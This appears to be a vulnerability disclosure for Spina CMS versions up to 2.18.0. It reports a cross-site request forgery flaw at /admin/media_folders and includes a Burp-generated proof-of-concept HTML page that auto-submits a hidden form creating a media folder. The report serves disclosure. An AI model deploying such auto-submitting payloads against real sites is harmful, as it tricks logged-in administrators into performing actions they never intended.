 [description]
 
Spina CMS v2.18.0 was discovered to contain a Cross-Site Request Forgery (CSRF) vulnerability via the URI /admin/media_folders.

 ------------------------------------------

 [Vulnerability Type]
 
 Cross-Site Request Forgery (CSRF)

 ------------------------------------------
 [Vendor of Product]
 
 Spina CMS,https://github.com/SpinaCMS/Spina

 ------------------------------------------

 [Affected Product Code Base]
 
 <=v2.18.0

 ------------------------------------------

 [Impact Escalation of Privileges]
 
 true

 ------------------------------------------
 [POC]
<img width="1254" alt="图片" src="https://github.com/user-attachments/assets/356f727f-2bbe-4636-8b6d-76ea49c270f0">
<img width="521" alt="图片" src="https://github.com/user-attachments/assets/e37faf62-7450-43bc-9c94-c19f6cc9da80">
<img width="863" alt="图片" src="https://github.com/user-attachments/assets/24e0577b-bb8e-4efb-b888-ff29968e86c6">




```
<html>
  <!-- CSRF PoC - generated by Burp Suite Professional -->
  <body>
    <form action="https://spinacms-demo.herokuapp.com/admin/media_folders" method="POST">
      <input type="hidden" name="utf8" value="â&#156;&#147;" />
      <input type="hidden" name="authenticity&#95;token" value="YHbA&#47;a9JxqaH6dBpw3EnP&#47;vL2WzJM6L8obuUr1uIhkUlET&#47;JRM987f66bvcMD8BHXIsfY0WLMinCaXd&#43;k&#43;Ka7Q&#61;&#61;" />
      <input type="hidden" name="media&#95;folder&#91;name&#93;" value="123" />
      <input type="submit" value="Submit request" />
    </form>
    <script>
      history.pushState('', '', '/');
      document.forms[0].submit();
    </script>
  </body>
</html>



```
